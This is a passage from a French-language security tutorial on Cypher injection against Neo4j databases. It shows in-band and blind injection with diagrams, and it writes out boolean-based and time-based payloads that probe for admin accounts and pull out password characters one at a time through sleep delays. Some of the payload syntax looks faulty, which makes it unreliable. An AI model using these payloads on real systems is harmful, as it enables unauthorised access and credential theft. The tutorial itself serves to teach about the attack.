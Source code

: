 **📊 Schéma In-Band**

```
[Client] ──(1) Payload malveillant──> [App Vulnérable]
                                           │
                                        (2) Requête injectée
                                           │
                                           ▼
[Client] <──(4) Données sensibles──── [Base Neo4j]
           │                              │
         (3) Réponse avec données      Exécution
```

#### 5.2 Injection Aveugle (Blind)

Aucun résultat direct, mais inférence possible via le comportement de l'application.

**🔍 Boolean-Based (Basée sur Booléens)**

```cypher
// Test de condition : Existe-t-il un admin ?
payload1 = ' AND EXISTS((u:Utilisateur {role:'admin'})) AND '1'='1
payload2 = ' AND EXISTS((u:Utilisateur {role:'superadmin'}))) AND '1'='1

// Si payload1 retourne des résultats et payload2 non,
// on sait qu'il y a un admin mais pas de superadmin
```

**⏰ Time-Based (Basée sur le Temps)**

```cypher
// Nécessite APOC installé
// Test : Le premier caractère du mot de passe admin est-il 'a' ?
' AND substring((u:Utilisateur {nom:'admin'}).password, 0, 1) = 'a' AND EXISTS((x) WHERE x=1 OR apoc.util.sleep(5000)) AND '1'='1

// Si la réponse met 5 secondes → première lettre = 'a'  
// Si réponse immédiate → première lettre ≠ 'a'
```

**📊 Schéma Blind**

```
[Client] ──(1) Tests logiques──> [App Vulnérable]
    ▲                                 │
    │                              (2) Requêtes conditionnelles  
    │                                 │
    │                                 ▼
(4) Analyse des réponses         [Base Neo4j]
    │                                 │  
    │                              (3) Comportement différentiel
[Attaquant]◄─────────────────────────┘
   (Inférence des données)
```

#### 5.3 Injection Out-of-Band

